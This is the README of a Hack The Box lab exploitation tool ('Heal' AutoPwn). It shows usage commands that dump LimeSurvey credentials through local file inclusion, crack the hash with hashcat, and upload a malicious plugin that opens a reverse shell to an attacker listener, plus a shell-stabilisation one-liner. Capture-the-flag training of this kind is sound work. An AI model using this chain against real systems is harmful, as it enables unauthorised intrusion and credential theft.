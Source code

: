 # Heal HTB AutoPwn – Autopwn Script

A full exploitation automation script for the **Heal** Linux machine on Hack The Box. Full write Up -> [WriteUp.md](https://github.com/maikneysm/AutoPwn-Heal.htb/blob/main/WriteUp.md)
## 📋 Description

This tool automates the following:
- Dumping LimeSurvey credentials via LFI
- Cracking the password hash manually (Hashcat/rockyou)
- Deploying a malicious LimeSurvey plugin to trigger a reverse shell
    

---
## 🧠 Requirements

- Python 3.8+
- `requests`
- `bs4`
  
Install dependencies with:

```bash
pip install requests beautifulsoup4
```

---
## ⚙️ Usage

### Phase 1: Dump and Crack Credentials

```bash
python3 autopwn.py --type getCredentials
```

This will:
- Log in to thevulnerable API
- Dump the SQLite file via LFI
- Extract the email and password hash
- Print the hash with a note like:
    

```
Crack this hash using `hashcat` or a wordlist like `rockyou.txt`
Once cracked, proceed to the next phase with --type getRevShellSlime
```

You can crack it like this:

```bash
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
```

---

### Phase 2: Deploy Reverse Shell via LimeSurvey Plugin
```bash
python3 autopwn.py \
  --type getRevShellSlime \
  --lhost <YOUR-IP> \
  --lport <YOUR-PORT> \
  --adminuser ralph@heal.htb \
  --adminpass <CRACKED-PASSWORD>
```

This will:

1. Generate a malicious LimeSurvey plugin (`pwned.zip`)
2. Log in to the LimeSurvey admin panel
3. Upload and install the plugin
4. Trigger the reverse shell
5. Automatically start a listener and spawn a `/bin/bash` shell
    

---

## 💡 Notes

- The tool checks if the plugin is already uploaded before re-uploading it.
- You can kill the listener cleanly with `Ctrl+C`.
- The script handles CSRF token parsing and redirections automatically.
- If the reverse shell behaves oddly, you can stabilize it inside the shell with:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
